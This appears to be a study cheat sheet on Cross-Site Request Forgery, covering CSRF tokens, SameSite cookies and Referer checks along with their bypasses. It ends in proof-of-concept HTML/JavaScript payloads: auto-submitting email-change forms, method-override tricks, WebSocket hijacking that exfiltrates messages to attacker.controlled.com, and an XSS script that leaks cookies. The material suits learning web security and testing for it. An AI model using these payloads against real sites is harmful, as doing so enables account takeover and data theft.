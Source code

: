 # Cross-Site Request Forgery

Make a user perform actions that they do not intend to perform. Such as, changing Email, changing password, do a money transfer, or send requests to outside urls. The attacker will most likely use a malicious webpage that contains some javascript that triggers the CSRF attack.

### Conditions

- There must be a relevant action for the attacker to take over
- Solely cookie-based session handling
- No unpredictable request parameters

View all my Proof of Concepts [here](#proof-of-concepts)

## Protections & Vulnerabilities

### CSRF tokens
CSRF tokens are generated server side and shared with the client. Before every sensitive action, it checks if the token is correct.
- Quite effective

> Sometimes the implementation has some common flaws that make the application vulnerable:
> - Validation of the CSRF token is skipped when `GET` is used instead of `POST` [PoC](#no-crsf-token-using-get)
> - No validation when CSRF token is not present
> - CSRF token not tied to user, so attacker can use their own token for the payload
> - Maybe the CSRF token is tied to some session-independent cookie (or CSRF token cookie double), so if there is any set-cookie exploit within the domain, it is exploitable

### SameSite cookies
[SameSite](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Set-Cookie#samesitesamesite-value) is a browser security mechanism that determines when a website's cookies are included in requests originating from other websites. Since sensitive actions propably require an authenticated cookie. Options are "Strict", "Lax", and "None".
- Chrome has `SameSite=Lax` restrictions by default (after 120 seconds on top-level `POST` requests, to make SSO work). "Lax" only sends cross-site cookies if a top-level navigation by the user issues a `GET` request
- Quite effective

> SameSite Lax is not always the best
> - If a website can use `GET` requests for sensitive operations, you can use `window.location = 'url'` to bypass "Lax" restrictions [PoC](#lax--get--method-override)
> - Some frameworks (e.g. [Symfony](https://symfony.com/doc/current/reference/forms/types/form.html#method)) allow the method to be overridden with the "_method" parameter in the form
> - Exploit the 120 second window for default "Lax", refresh the login, then exploit [PoC](#default-lax--sso)
>
> SameSite Strict can still be vulnerable
> - Client-side redirects are same-site, so it will include the cookies, so maybe a user controlled url is used in a client-sided redirect somewhere on the site
> - Or use [XSS](./xss.md) to elicit arbitrary secondary requests to compromise all site-based defenses
> - If websockets are used, it maybe is vulnerable to cross-site WebSocket hijacking, which targets the websocket handshake [PoC](#cross-site-websocket-hijacking)
 
### Referer-based validation
Check the [Referer header](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Referer) to see if the request originated from the application's own domain.
- Not very effective

> Using the Referer header as CSRF protection is not very good
> - Sometimes validation is skipped if the header is omitted [PoC](#referer-omitted)
> - If only checked if the referer contains the site, you can append it to the current url with `/?website`. Must use `Referrer-Policy: unsafe-url` when doing this [PoC](#referer-modified)

## Proof of Concepts

### General | CSRF token | Method override
```html
<html>
    <body>
        <form method="POST" action="https://vulnerable-website.com/email/change">
            <input type="hidden" name="email" value="pwned@evil-user.net" />
            <input type="hidden" name="csrf" value="xxxx" />
            <input type="hidden" name="_method" value="GET">
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```

### No CRSF token using GET
```html
<img src="https://vulnerable-website.com/email/change?email=pwned@evil-user.net">
```

### Lax | GET | Method override
```html
<script>
    window.location = 'https://vulnerable-website.com/email/change?_method=POST&email=pwned@evil-user.net';
</script>
```

### Cross-Site WebSocket Hijacking
```html
<script>
    var ws = new WebSocket('wss://vulnerable-website.com/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://attacker.controlled.com', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>
```

### Default Lax | SSO
```html
<form method="POST" action="https://vulnerable-website.com/email/change">
    <input type="hidden" name="email" value="pwned@evil-user.net">
</form>
<p>Click anywhere</p>
<script>
    window.onclick = () => {
        window.open('https://vulnerable-website.com/login/sso');
        setTimeout(changeEmail, 5000);
    }

    function changeEmail() {
        document.forms[0].submit();
    }
</script>
```

### Referer omitted
```html
<meta name="referrer" content="never">
```

### Referer modified
Use header `Referrer-Policy: unsafe-url` on malicious website
```html
<script>
    history.pushState("", "", "/?vulnerable-website.com")
</script>
```

### XSS->CSRF
```html
<script>
window.addEventListener('DOMContentLoaded', function(){

var token = document.getElementsByName('csrf')[0].value;
var data = new FormData();

data.append('csrf', token);
data.append('postId', 3);
data.append('comment', document.cookie);
data.append('name', 'victim');
data.append('email', 'foo@bar.com');
data.append('website', 'http://foo.bar');

fetch('/post/comment', {
    method: 'POST',
    mode: 'no-cors',
    body: data
});
});
</script>
```

# Sources
- Main info (Portswigger): https://portswigger.net/web-security/learning-paths/csrf